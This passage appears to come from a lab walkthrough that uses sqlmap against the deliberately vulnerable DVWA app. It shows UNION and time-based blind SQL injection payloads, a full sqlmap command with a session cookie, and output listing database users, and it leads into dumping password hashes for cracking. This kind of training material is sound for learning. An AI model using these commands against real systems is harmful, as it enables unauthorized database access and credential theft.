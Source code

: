         Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:43:30] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:43:30] [INFO] fetching current user
    current user: 'root@%'
    [17:43:30] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:43:30 /2022-11-17/

List all users:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –users

This lists all the users that access the database:

    [*] starting @ 17:44:21 /2022-11-17/

    [17:44:22] [INFO] resuming back-end DBMS 'mysql' 
    [17:44:22] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:44:22] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: Apache 2.2.8, PHP 5.2.4
    back-end DBMS: MySQL >= 5.0.12
    [17:44:22] [INFO] fetching database users
    database management system users [3]:
    [*] 'debian-sys-maint'@''
    [*] 'guest'@'%'
    [*] 'root'@'%'

    [17:44:22] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:44:22 /2022-11-17/

List the corresponding passwords (password hashes that can then be cracked using dictionary or brute force techniques. Even `sqlmap` is already equipped with these tools):
